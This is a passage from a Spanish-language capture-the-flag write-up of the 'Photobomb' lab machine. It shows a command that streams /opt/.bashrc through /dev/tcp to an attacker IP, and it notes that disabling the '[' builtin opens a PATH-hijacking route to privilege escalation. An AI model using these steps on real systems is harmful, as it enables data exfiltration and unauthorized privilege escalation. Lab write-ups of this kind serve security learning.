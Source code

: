 - Ahora vemos el /opt/.bashrc y lo interpretamos con bash,  `cat /opt/.bashrc | grep -v "^#" > /dev/tcp/10.10.14.5/443` el grep es para quitar todos los comentarios. 
![](../assets/images/Photobomb/web29.png)

![](../assets/images/Photobomb/web30.png)
- `enable -n [ # ]` En esta linea lo que hace es desactivar el comano `[` que es un comando propio de linux, podriamos aprovecharnos de eso, para cambiar su contenido y realizar un PATH Hijacking 
